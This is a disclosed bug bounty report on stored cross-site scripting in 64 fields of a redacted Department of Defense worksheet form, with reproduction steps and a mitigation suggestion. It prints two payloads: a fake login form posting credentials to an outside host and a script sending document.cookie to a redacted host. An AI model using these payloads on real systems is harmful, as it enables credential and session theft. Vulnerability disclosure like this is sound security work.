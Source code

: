 # Stored XSS via 64(?) vulnerable fields in ███ leads to credential theft/account takeover

## Report Details
- **Report ID**: 847176
- **URL**: https://hackerone.com/reports/847176
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-11T08:39:44.046Z
- **Disclosed**: 2021-02-10T21:07:10.472Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
A user is able to complete a ████████ worksheets via https://██████████. This form allows a user to store multiple XSS payloads within, which will in turn allow the attacker to run malicious code in context of the legal personnel who view the request.

## Impact
The attacker can have multiple effects from this vulnerability, to include but not limited to account compromise, keystroke logging, drive-by downloads, and much more.

## Step-by-step Reproduction Instructions

1. Browse to https://█████
████████
2. Click `█████████`. Once on the ██████ page, click `███ and ████████`
██████████
3. Click `Continue`.
██████
4. Fill in your name and click `Submit`. XSS payloads seem to be sanitized properly here from basic tests.
███
5. Any field that accepts text in the rest of the document seems vulnerable to XSS. Complete the form, filling in XSS payloads anywhere you can type. I counted 64 vulnerable fields total.
█████████
7. Click `Finish`. You will see a confirmation that your request was submitting and receive a ticket number.
█████████
8. Click `██████`, or return to the `███████` page and put in your info in the `█████` area to modify the worksheet. The XSS will fire in both locations.
█████████
9. To demonstrate credential theft/account takeover, I used the following (very obvious) payload. There are various ways an attacker could do this and nothing seems to be filtered:

```
<h3>Please login to proceed</h3> <form action=http://██████>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
█████████
███

An attacker can also redirect the user as soon as the worksheet is opened, but as an unauthenticated user I was unable to test for cookie theft:
`<script>window.location="http://███/?cookie=" + document.cookie</script>`
██████

## Suggested Mitigation/Remediation Actions
Sanitize any fields where user input is reflected and disallow special characters from being submitted in each form field.

## Impact

The attacker can have multiple effects from this vulnerability, to include but not limited to account compromise, keystroke logging, drive-by downloads, and much more.

## Attachments
No attachments
